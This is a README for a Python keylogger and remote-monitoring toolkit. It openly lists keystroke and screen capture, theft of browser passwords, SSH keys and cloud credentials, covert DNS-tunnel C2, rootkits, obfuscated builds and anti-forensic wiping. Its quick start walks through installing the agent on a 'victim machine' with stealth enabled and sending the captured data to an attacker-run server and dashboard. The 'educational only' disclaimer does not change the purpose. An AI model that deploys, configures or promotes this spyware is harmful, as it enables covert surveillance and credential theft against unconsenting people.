

# AdvanceKeyLogger

A modular, cross-platform monitoring and security research platform built in Python -- featuring E2E encrypted transport, distributed fleet management, 11-subsystem stealth mode, covert C2 channels, credential harvesting, kernel-level rootkit integration, and a full web dashboard.

> **Disclaimer:** This project is for educational and authorized security research only. Do not use on systems you do not own or without explicit written permission.

---

## Architecture

The system deploys across **two machines** -- the victim (target) and the attacker (operator):



- Victim makes **outbound connections only** (no listening ports)
- Data is **E2E encrypted** before leaving the victim
- **Offline-first**: captures locally, syncs when network is available
- **Transport failover**: HTTP -> DNS tunnel -> Email (automatic)

**[Full architecture documentation](docs/architecture.md)**

---

## Features

| Category | Features | Docs |
|----------|----------|------|
| **Capture** | Keyboard, mouse, screenshot, clipboard, window, audio (macOS native + cross-platform) | [docs/capture-plugins.md](docs/capture-plugins.md) |
| **Transport** | HTTP, Email, FTP, Telegram, WebSocket, DNS Tunnel, HTTPS Covert + failover chain | [docs/transport.md](docs/transport.md) |
| **Encryption** | E2E (X25519 + AES-256-GCM), AES-256-CBC, PBKDF2, Ed25519 signatures, JWT | [docs/encryption.md](docs/encryption.md) |
| **Stealth** | 11-subsystem stealth mode (process masking, FS cloak, detection awareness, memory cloak, etc.) | [docs/stealth.md](docs/stealth.md) |
| **Fleet** | Distributed C2 with JWT auth, command dispatch, heartbeat monitoring | [docs/fleet-management.md](docs/fleet-management.md) |
| **Dashboard** | FastAPI web UI with session replay, real-time WebSocket, command palette | [docs/dashboard.md](docs/dashboard.md) |
| **Harvest** | Browser passwords, cookies, history, SSH keys, WiFi passwords, cloud credentials | [docs/credential-harvesting.md](docs/credential-harvesting.md) |
| **C2** | DNS tunneling, HTTPS covert channels, encrypted command protocol | [docs/c2-covert-channels.md](docs/c2-covert-channels.md) |
| **Rootkit** | Linux LKM (ftrace), macOS DYLD interposition, Windows minifilter (Python + C) | [docs/rootkit.md](docs/rootkit.md) |
| **Build** | Nuitka native compilation + AST string encryption + UPX packing | [docs/build-obfuscation.md](docs/build-obfuscation.md) |
| **Pipeline** | Configurable middleware (dedup, rate-limit, anonymize, route, enrich) | [docs/pipeline-middleware.md](docs/pipeline-middleware.md) |
| **Sync** | Offline-first sync with adaptive batching, checkpointing, conflict resolution | [docs/sync-engine.md](docs/sync-engine.md) |
| **Intelligence** | Rule engine (YAML DSL), keystroke biometrics, app usage profiling | -- |
| **Service** | Cross-platform daemon (systemd, launchd, Windows Service) | -- |
| **Anti-Forensics** | Self-destruct with secure wipe, trace removal | -- |

---

## Quick Start

### 1. Install

```bash
git clone https://github.com/CreatorGhost/AdvanceKeyLogger.git
cd AdvanceKeyLogger
python -m venv venv && source venv/bin/activate
pip install -e ".[all,dev]"
```

### 2. Generate server keys (attacker machine)

```bash
python -m server.run --generate-keys --config config/server_config.example.yaml
# Copy the printed public key
```

### 3. Configure agent (victim machine)

```yaml
# config.yaml
encryption:
  enabled: true
  mode: "e2e"
  e2e:
    server_public_key: "<paste key>"

transport:
  method: "http"
  http:
    url: "http://your-server-ip:8000/ingest"

stealth:
  enabled: true
  level: "high"

fleet:
  enabled: true
  agent:
    controller_url: "http://your-server-ip:8080/api/v1/fleet"

capture:
  keyboard:
    enabled: true
  screenshot:
    enabled: true
```

### 4. Start server and dashboard (attacker machine)

```bash
# Terminal 1: E2E collector
python -m server.run --config config/server_config.example.yaml --host 0.0.0.0 --port 8000

# Terminal 2: Dashboard
python -m dashboard.run --port 8080 --enable-fleet --admin-pass your_password
```

### 5. Deploy agent (victim machine)

```bash
python main.py -c config.yaml
```

### 6. Open dashboard

Browse to `http://your-server-ip:8080` -- captured data appears as the agent syncs.

---

## CLI Options

| Flag | Description |
|------|-------------|
| `-c`, `--config` | Path to YAML config file |
| `--log-level` | Override log level (DEBUG, INFO, WARNING, ERROR) |
| `--list-captures` | List registered capture plugins |
| `--list-transports` | List registered transport plugins |
| `--self-destruct` | Remove all data and traces |
| `--dry-run` | Capture but don't send |
| `--no-pid-lock` | Allow multiple instances |
| `service install\|start\|stop` | Manage daemon mode |

---

## Environment Variables

Override any config value with `SVC_` prefix and double-underscore separators:

```bash
export SVC_CAPTURE__SCREENSHOT__QUALITY=95
export SVC_TRANSPORT__METHOD=telegram
export SVC_STEALTH__LEVEL=maximum
```

---

## Project Structure

```
AdvanceKeyLogger/
├── main.py                      # Entry point (unified agent)
├── config/
│   ├── default_config.yaml      # Default configuration
│   └── profiles/stealth.yaml    # Stealth preset profile
├── capture/                     # 6 capture plugins + macOS native backends
├── transport/                   # 7 transport plugins + failover chain
├── stealth/                     # 11 stealth subsystems
├── harvest/                     # Credential & data harvesting
├── c2/                          # Covert C2 (DNS tunnel, HTTPS covert)
├── rootkit/                     # Kernel-level hiding (Python + C)
│   └── native/                  # C kernel modules (linux, macos, windows)
├── build/                       # Nuitka build pipeline + string encryption
├── sync/                        # Offline-first sync engine
├── pipeline/                    # Middleware chain
├── engine/                      # Rule engine + EventBus
├── biometrics/                  # Keystroke biometrics
├── profiler/                    # App usage profiling
├── fleet/                       # Fleet agent + controller
├── crypto/                      # E2E encryption (X25519, AES-GCM)
├── storage/                     # SQLite + fleet storage
├── server/                      # E2E collector + DataBridge
├── dashboard/                   # Web UI (FastAPI + templates + JS)
├── service/                     # Cross-platform daemon management
├── utils/                       # Crypto, resilience, process, self-destruct
├── plugins/                     # Plugin architecture
├── tests/                       # Test suite
└── docs/                        # Feature documentation
```

---

## Documentation

| Document | Description |
|----------|-------------|
| [Architecture](docs/architecture.md) | Deployment model, data flow diagrams, component overview |
| [Capture Plugins](docs/capture-plugins.md) | All 6 capture modules with backends |
| [Transport](docs/transport.md) | 7 transport methods + failover chain |
| [Encryption](docs/encryption.md) | E2E crypto flow, server setup, TLS |
| [Stealth Mode](docs/stealth.md) | 11 stealth subsystems, levels, configuration |
| [Fleet Management](docs/fleet-management.md) | C2 architecture, JWT auth, commands |
| [Dashboard](docs/dashboard.md) | Web UI pages, API endpoints, session replay |
| [Credential Harvesting](docs/credential-harvesting.md) | Browser passwords, SSH keys, cloud creds |
| [C2 Covert Channels](docs/c2-covert-channels.md) | DNS tunneling, HTTPS covert, protocol |
| [Rootkit](docs/rootkit.md) | Linux LKM, macOS DYLD, Windows minifilter |
| [Build Obfuscation](docs/build-obfuscation.md) | Nuitka compilation, string encryption |
| [Pipeline/Middleware](docs/pipeline-middleware.md) | Event processing chain |
| [Sync Engine](docs/sync-engine.md) | Offline-first sync, connectivity, conflicts |
| [Roadmap](FUTURE_ROADMAP_CHECKLIST.md) | Feature checklist and planned items |

---

## Requirements

- **Python:** 3.9+
- **Core:** pynput, Pillow, pyyaml, cryptography, requests, fastapi, uvicorn, psutil, PyJWT
- **Optional:** pyobjc (macOS native), sounddevice (audio), redis, websockets, setproctitle, fake-useragent, nuitka

```bash
pip install -e .                    # core only
pip install -e ".[all,dev]"         # everything
```

---

## Testing

```bash
python -m pytest tests/ -v                          # all tests
python -m pytest tests/test_stealth.py -v           # stealth module
python -m pytest tests/ --cov=. --cov-report=term   # with coverage
```

---

## License

This project is for **educational and authorized security research purposes only**.

---
